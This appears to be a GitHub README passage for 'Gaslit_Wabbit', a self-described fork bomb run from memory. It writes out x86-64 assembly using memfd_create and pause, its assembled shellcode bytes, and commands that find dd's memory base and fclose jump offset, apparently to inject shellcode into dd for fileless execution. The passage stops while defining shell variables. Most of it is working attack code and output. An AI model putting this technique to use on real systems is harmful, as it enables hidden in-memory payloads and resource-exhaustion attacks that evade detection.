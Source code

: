 # Gaslit_Wabbit
1978 wabbit fork bomb running in Ram

first we get the syscall numbers for
- memfd_create
- pause
- exit

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep memfd_create
```
- ```#define __NR_memfd_create 319```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep pause
```
- ```#define __NR_pause 34```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep exit
```
- ```#define __NR_exit 60```



next we create some assembly that will
- duplicate FDs: 10 and 11
```asm
xor rax, rax
xor rdi, rdi
mov di, 10
mov rax, 0x20
syscall
xor rax, rax
inc rdi
mov rax, 0x20
syscall
```
- create an in-memory-only file (syscall 319)
```asm
push 0x78436f73
mov rdi, rsp
mov rsi, 0
mov rax, 319
syscall
```
- suspend the process (syscall 34)
```asm
mov rax, 34
syscall
```
- exit process (syscall 60) (should never be reached)
```asm
xor rax, rax
add rax, 60
xor rdi, rdi
syscall
```
putting it all together:

```asm
BITS 64
global _start
section .text
_start:
        xor rax, rax
        xor rdi, rdi
        mov di, 10
        mov rax, 0x20
        syscall
        xor rax, rax
        inc rdi
        mov rax, 0x20
        syscall
memfd_create:
        push 0x78436f73
        mov rdi, rsp
        mov rsi, 0
        mov rax, 319
        syscall
pause:
        mov rax, 34
        syscall
exit:
        xor rax, rax
        add rax, 60
        xor rdi, rdi
        syscall
```

next, we nasm the assembly code and do a hexdump,

```shell
nasm memfd.asm
```
```shell
hexdump -v -e '"\\""x" 1/1 "%02x" ""' memfd
```
- ```\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05```

next, we find the PID addresses for DD fclose,

```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd"
```
```shell
555555554000-555555556000 r--p 00000000 ca:01 262762      /usr/bin/dd
555555556000-555555564000 r-xp 00002000 ca:01 262762      /usr/bin/dd
555555564000-555555569000 r--p 00010000 ca:01 262762      /usr/bin/dd
555555569000-55555556a000 r--p 00014000 ca:01 262762      /usr/bin/dd
55555556a000-55555556b000 rw-p 00015000 ca:01 262762      /usr/bin/dd
```

```shell
objdump -Mintel -d `which dd` | grep fclose
```
```shell
0000000000002170 <fclose@plt>:
    67e6:   e8 85 b9 ff ff     call   2170 <fclose@plt>
    681b:   e9 50 b9 ff ff     jmp    2170 <fclose@plt>
```

let's remove what we don't need,
```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12
```
- ```55555555400```

we see the PID addresses are,
- 0x555555554000
- 0x681b

now, let's create some variables that, will run a command that will locate the PID addresses and store only what we need from the output,


pid_address_1=$(setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12)
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)